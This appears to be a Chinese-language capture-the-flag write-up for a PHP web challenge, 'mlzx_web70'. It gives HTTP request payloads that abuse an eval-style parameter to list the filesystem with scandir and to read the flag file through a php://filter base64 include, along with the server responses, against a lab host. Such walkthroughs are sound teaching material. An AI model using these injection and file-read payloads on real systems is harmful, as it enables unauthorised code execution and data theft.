



# mlzx_web70

原地址：[GZCTF-challenges/mlzx/mlzx_web70](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/mlzx/mlzx_web70)

禁用 `var_export` `readgzfile` ，开放 `echo`

使用 echo 获取 flag 位置

```http
POST / HTTP/1.1
Host: 192.168.128.131:32808
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=echo json_encode(scandir("/")); 
```

```http
HTTP/1.1 200 OK
Date: Wed, 05 Nov 2025 06:48:07 GMT
Server: Apache/2.4.65 (Debian) PHP/8.2.29
X-Powered-By: PHP/8.2.29
Vary: Accept-Encoding
Content-Type: text/html; charset=utf-8
Content-Length: 253

[
  ".",
  "..",
  ".dockerenv",
  "bin",
  "boot",
  "dev",
  "entrypoint.sh",
  "etc",
  "flag350234.txt",
  "home",
  "lib",
  "lib64",
  "media",
  "mnt",
  "opt",
  "proc",
  "root",
  "run",
  "sbin",
  "srv",
  "sys",
  "tmp",
  "usr",
  "var"
]

```



```http
POST / HTTP/1.1
Host: 192.168.128.131:32808
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=echo(implode(",",scandir("/"))); 
```

```http
HTTP/1.1 200 OK
Date: Wed, 05 Nov 2025 06:49:18 GMT
Server: Apache/2.4.65 (Debian) PHP/8.2.29
X-Powered-By: PHP/8.2.29
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
Content-Length: 130

.,..,.dockerenv,bin,boot,dev,entrypoint.sh,etc,flag350234.txt,home,lib,lib64,media,mnt,opt,proc,root,run,sbin,srv,sys,tmp,usr,var
```



获取 flag

```http
POST / HTTP/1.1
Host: 192.168.128.131:32808
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag350234.txt
```

```http
HTTP/1.1 200 OK
Date: Wed, 05 Nov 2025 06:50:24 GMT
Server: Apache/2.4.65 (Debian) PHP/8.2.29
X-Powered-By: PHP/8.2.29
Content-Type: text/html; charset=UTF-8
Content-Length: 41

ZmxhZ3tHWkNURl9keW5hbWljX2ZsYWdfdGVzdH0K

```

